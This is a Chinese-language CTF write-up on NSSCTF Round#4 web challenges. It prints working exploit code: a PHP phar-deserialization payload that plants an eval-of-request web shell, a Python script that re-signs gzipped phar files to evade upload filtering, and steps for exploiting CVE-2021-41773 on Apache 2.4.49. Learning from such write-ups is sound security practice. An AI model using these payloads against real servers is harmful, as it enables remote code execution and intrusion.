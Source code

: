 ```yaml
---
title: "NSSCTF Round#4 Web Writeup"
date: 2022-08-03T22:12:24+08:00
draft: false
author: "X1r0z"

tags: ['ctf','php']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


等 ez_web (revenge) 出来才发现原来的 ez_web 直接读 /flag 就行...

ez_rce 一开始因为没装插件的原因一直想不出来 (被打)

<!--more-->

## 1zweb

![20220803125540](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803125540.png)

查询文件处可以读文件

index.php

```php
<?php
class LoveNss{
    public $ljt;
    public $dky;
    public $cmd;
    public function __construct(){
        $this->ljt="ljt";
        $this->dky="dky";
        phpinfo();
    }
    public function __destruct(){
        if($this->ljt==="Misc"&&$this->dky==="Re")
            eval($this->cmd);
    }
    public function __wakeup(){
        $this->ljt="Re";
        $this->dky="Misc";
    }
}
$file=$_POST['file'];
if(isset($_POST['file'])){
    echo file_get_contents($file);
}
```

upload.php

```php
<?php
if ($_FILES["file"]["error"] > 0){
    echo "上传异常";
}
else{
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    $temp = explode(".", $_FILES["file"]["name"]);
    $extension = end($temp);
    if (($_FILES["file"]["size"] && in_array($extension, $allowedExts))){
        $content=file_get_contents($_FILES["file"]["tmp_name"]);
        $pos = strpos($content, "__HALT_COMPILER();");
        if(gettype($pos)==="integer"){
            echo "ltj一眼就发现了phar";
        }else{
            if (file_exists("./upload/" . $_FILES["file"]["name"])){
                echo $_FILES["file"]["name"] . " 文件已经存在";
            }else{
                $myfile = fopen("./upload/".$_FILES["file"]["name"], "w");
                fwrite($myfile, $content);
                fclose($myfile);
                echo "上传成功 ./upload/".$_FILES["file"]["name"];
            }
        }
    }else{
        echo "dky不喜欢这个文件 .".$extension;
    }
}
?>
```

有一个类 LoveNSS, 想到了 phar 反序列化

这里也没啥 pop 链的, 直接改字段

payload

```php
<?php

class LoveNss{
    public $ljt = "Misc";
    public $dky = "Re";
    public $cmd = 'eval($_REQUEST[1]);';

}

$o = new LoveNss();

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();

?>
```

但是 upload.php 会检测文件中是否含有 `__HALT_COMPILER();` 这个关键字

大小写绕过无效, phar 不解析

网上搜了一下发现 phar 绕过的新姿势

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

可以通过 tar gzip b2zip 的方式压缩 phar 文件, PHP 处理时会自动解压缩并且解析里面的 phar

同时这里存在 `__wakeup`, 可以改数字绕过

> 当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 __wakeup 的执行

Linux 下使用 `gzip phar.phar` 压缩, 改后缀为 png 上传

![20220803130051](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130051.png)

报错 `broken signature`

PHP 官方手册查了一下发现有签名校验

网上搜了好长时间都没结果... 然后想起来前几天的强网杯 easyweb 也是要绕过 `__wakeup`

于是换了个关键词在 Google 上搜了一会就出来了...

[https://www.wangan.com/p/7fy78yfaa40486ed#easyweb](https://www.wangan.com/p/7fy78yfaa40486ed#easyweb)

[http://www.yongsheng.site/2022/05/14/phar/](http://www.yongsheng.site/2022/05/14/phar/)

贴一下改签的脚本

```python
from hashlib import sha1

file = open('phar.phar','rb+').read()

text = file[:-28]

last = file[-8:]

new_file = text + sha1(text).digest() + last

open('new.phar','wb').write(new_file)
```

本地运行后改后缀上传

![20220803130513](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130513.png)

上传成功

![20220803130554](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130554.png)

链接

![20220803130700](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130700.png)

![20220803130713](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130713.png)

## 1zweb (revenge)

和上面的一样基本没区别

index.php 略有改动

```php
if(isset($_POST['file'])){
    if (preg_match("/flag/i", $file)) {
    	die("nonono");
    }
    echo file_get_contents($file);
}
```

md 看了才知道原来那题直接读 /flag 就行...

wp 同上


## ez_rce

这题一开始没做出来, 原因是没装 Wappalyzer...

![20220803220146](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220146.png)

apache 2.4.49

存在一个路径穿越漏洞 CVE-2021-41773

[https://www.cnblogs.com/RichardYg/p/16272797.html](https://www.cnblogs.com/RichardYg/p/16272797.html)

目录遍历的 exp 测试失败, 命令执行 exp 测试成功

![20220803220317](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220317.png)

有一个 `flag_is_here` 文件夹

![20220803220342](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220342.png)

一共四层文件夹, 每一个文件夹都是 0-9

![20220803220428](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220428.png)

明显需要爆破一下

![20220803220458](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220458.png)

Attack type 设置为 Cluster bomb

这样一共就是 `10*10*10*10` 的 payload

![20220803221112](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803221112.png)

得到 flag